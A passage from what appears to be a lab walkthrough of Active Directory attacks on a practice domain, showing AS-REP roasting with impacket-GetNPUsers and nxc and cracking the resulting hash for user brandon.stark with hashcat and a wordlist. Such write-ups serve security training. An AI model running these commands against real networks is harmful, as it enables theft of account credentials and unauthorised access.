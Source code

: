 - We now could try asreproasting on all the users with impacket:

```bash
impacket-GetNPUsers north.sevenkingdoms.local/ -no-pass -usersfile users.txt
```

![screenshot](pics/impacket_asrep.png)

```bash
nxc ldap 192.168.56.11 -u users.txt -p '' --asreproast hashes.north.txt
```

![screenshot](pics/nxc_asrep.png)
- We get a ticket for brandon.stark and we will try to break it as the user don’t require kerberos pre-authentication

```
hashcat -m 18200 asrephash /usr/share/wordlists/rockyou.txt
```

![screenshot](pics/hashcat_asrep.png)

